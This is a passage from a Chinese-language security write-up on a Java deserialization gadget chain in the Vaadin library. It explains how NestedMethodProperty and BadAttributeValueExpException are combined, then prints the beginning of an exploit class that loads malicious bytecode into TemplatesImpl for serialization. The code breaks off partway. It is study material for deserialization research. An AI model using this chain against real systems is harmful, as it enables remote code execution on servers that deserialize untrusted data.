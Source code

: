 其实可以发现他返回的就是我们 `list`​的内容

那之后取出 list 的内容后再从 map 中去找对应的值去调用我们的 getvalue 方法

[![](assets/1710900819-9d219b67f0b0107bb79791e4bdf86b82.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229162545-223dad86-d6dc-1.png)

那么现在目的就是

1.  list 有一个需要调用他的 getter 方法的 id
2.  map 也需要一个调用他的 getter 方法的 id 并且取出来的值为 `NestedMethodProperty`​类来调用他的 getvalue 方法

那其实就已经非常好去拼接了

最后的问题就是如何在反序列化的时候调用任意类的 `Tostring`​方法了，而在我们的 CC5 当中就接触过这个类叫 `BadAttributeValueExpException`​，他的反序列化是可以调用任意类的 `ToString`​方法的，于是参考 SU18 师傅的 EXP 成功弹出计算机

```plain
package Vaadin;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.vaadin.data.util.NestedMethodProperty;
import com.vaadin.data.util.PropertysetItem;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class Vaadin_Ser {


    public static void  serialize(Object obj) throws IOException {
        ObjectOutputStream oos =new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {

        // 生成包含恶意类字节码的 TemplatesImpl 类
        byte[] payloads = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));


        TemplatesImpl templates = new TemplatesImpl();
```